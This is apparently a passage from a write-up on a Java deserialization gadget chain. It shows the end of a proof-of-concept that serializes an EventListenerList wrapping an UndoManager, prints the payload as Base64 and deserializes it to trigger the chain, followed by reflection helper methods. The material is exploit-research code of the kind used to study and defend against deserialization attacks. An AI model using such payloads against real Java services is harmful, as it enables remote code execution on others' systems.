```
//        EventListenerList eventListenerList = new EventListenerList();
//        unsafe.putObject(eventListenerList,unsafe.objectFieldOffset(eventListenerList.getClass().getDeclaredField("listenerList")),new Object[]{InternalError.class, undoManager});

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(eventListenerList);
        System.out.println(Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray()));
        ByteArrayInputStream bin = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        new ObjectInputStream(bin).readObject();

    }
    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }
    public static Field getField(Class<?> clazz, String fieldName) {
        Field field = null;

        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException var4) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }

        return field;
    }
}
```

![image-20240423154715260](images/2.png)
